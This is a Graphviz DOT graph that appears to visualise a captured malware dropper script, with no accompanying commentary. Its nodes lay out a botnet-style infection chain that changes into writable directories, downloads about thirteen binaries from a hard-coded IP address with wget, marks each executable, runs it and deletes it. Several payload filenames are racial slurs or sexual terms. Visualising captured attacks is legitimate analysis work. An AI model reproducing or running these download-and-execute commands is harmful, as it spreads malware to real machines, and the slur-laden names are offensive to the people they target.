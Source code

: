 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://155.133.24.230/tacojohn "];
10 -> 12 [label=";,"];
12 [label="chmod +x tacojohn "];
12 -> 14 [label=";,"];
14 [label="./tacojohn "];
14 -> 16 [label=";,"];
16 [label="rm -rf tacojohn "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://155.133.24.230/cockerspain "];
28 -> 30 [label=";,"];
30 [label="chmod +x cockerspain "];
30 -> 32 [label=";,"];
32 [label="./cockerspain "];
32 -> 34 [label=";,"];
34 [label="rm -rf cockerspain "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://155.133.24.230/bigblackcockx "];
46 -> 48 [label=";,"];
48 [label="chmod +x bigblackcockx "];
48 -> 50 [label=";,"];
50 [label="./bigblackcockx "];
50 -> 52 [label=";,"];
52 [label="rm -rf bigblackcockx "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://155.133.24.230/pimplver "];
64 -> 66 [label=";,"];
66 [label="chmod +x pimplver "];
66 -> 68 [label=";,"];
68 [label="./pimplver "];
68 -> 70 [label=";,"];
70 [label="rm -rf pimplver "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://155.133.24.230/iihentai "];
82 -> 84 [label=";,"];
84 [label="chmod +x iihentai "];
84 -> 86 [label=";,"];
86 [label="./iihentai "];
86 -> 88 [label=";,"];
88 [label="rm -rf iihentai "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://155.133.24.230/ieaglez "];
100 -> 102 [label=";,"];
102 [label="chmod +x ieaglez "];
102 -> 104 [label=";,"];
104 [label="./ieaglez "];
104 -> 106 [label=";,"];
106 [label="rm -rf ieaglez "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://155.133.24.230/polandfors "];
118 -> 120 [label=";,"];
120 [label="chmod +x polandfors "];
120 -> 122 [label=";,"];
122 [label="./polandfors "];
122 -> 124 [label=";,"];
124 [label="rm -rf polandfors "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://155.133.24.230/niggastand "];
136 -> 138 [label=";,"];
138 [label="chmod +x niggastand "];
138 -> 140 [label=";,"];
140 [label="./niggastand "];
140 -> 142 [label=";,"];
142 [label="rm -rf niggastand "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://155.133.24.230/nibbaf "];
154 -> 156 [label=";,"];
156 [label="chmod +x nibbaf "];
156 -> 158 [label=";,"];
158 [label="./nibbaf "];
158 -> 160 [label=";,"];
160 [label="rm -rf nibbaf "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://155.133.24.230/repppy "];
172 -> 174 [label=";,"];
174 [label="chmod +x repppy "];
174 -> 176 [label=";,"];
176 [label="./repppy "];
176 -> 178 [label=";,"];
178 [label="rm -rf repppy "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://155.133.24.230/[cpu] "];
190 -> 192 [label=";,"];
192 [label="chmod +x [cpu] "];
192 -> 194 [label=";,"];
194 [label="./[cpu] "];
194 -> 196 [label=";,"];
196 [label="rm -rf [cpu] "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://155.133.24.230/atakheli "];
208 -> 210 [label=";,"];
210 [label="chmod +x atakheli "];
210 -> 212 [label=";,"];
212 [label="./atakheli "];
212 -> 214 [label=";,"];
214 [label="rm -rf atakheli "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://155.133.24.230/cokaine "];
226 -> 228 [label=";,"];
228 [label="chmod +x cokaine "];
228 -> 230 [label=";,"];
230 [label="./cokaine "];
230 -> 231 [label=";,"];
}
